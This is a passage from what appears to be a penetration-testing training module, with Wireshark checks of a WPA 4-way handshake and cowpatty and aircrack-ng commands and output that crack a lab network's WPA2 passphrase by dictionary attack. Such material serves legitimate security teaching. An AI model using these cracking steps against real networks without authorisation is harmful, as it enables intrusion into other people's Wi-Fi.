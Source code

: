 ![image](KjmC8DIYGRZx.png)

We should see that the WPA Key nonce value is the same in message 3 as it is in message 1.

`Message 4`:

![image](ZdjGXXZeECID.png)

For message four, we should see no key nonce value and only a MIC value.

As such, to verify the handshake in Wireshark, we can check the following:

- All four EAPOL messages exist per each handshake in sequential order
- Key nonce values are the same in message 1 and 3

* * *

## Cracking the MIC (4-Way Handshake)

There are a few different tools to crack a WPA handshake, such as John the Ripper, hashcat, cowpatty, and aircrack-ng among others.

First, let's explore how to perform this using `Cowpatty`. We specify the packet capture, the dictionary file, and also the SSID of the network.

```shell
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s HackTheBox

cowpatty 4.8 - WPA-PSK dictionary attack. <[email protected]>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "<SNIP>".

18 passphrases tested in 0.06 seconds:  284.77 passphrases/second

```

We can also use `aircrack-ng` to crack the PSK from the captured WPA handshake.

```shell
aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap

Reading packets, please wait...
Opening -
Opening WPA-01.cap

   #  BSSID              ESSID                     Encryption

   1  80:2D:BF:FE:13:83  HackTheBox                WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening WPA-01.cap
Opening -
1 potential targets

                               Aircrack-ng 1.6

      [00:00:00] 83/10303727 keys tested (626.74 k/s)

      Time left: 4 hours, 34 minutes, 0 seconds                  0.00%

                          KEY FOUND! [ <SNIP> ]

      Master Key     : 2B CF 5F 47 88 34 B7 14 66 50 16 C2 CE 8B 43 A6
```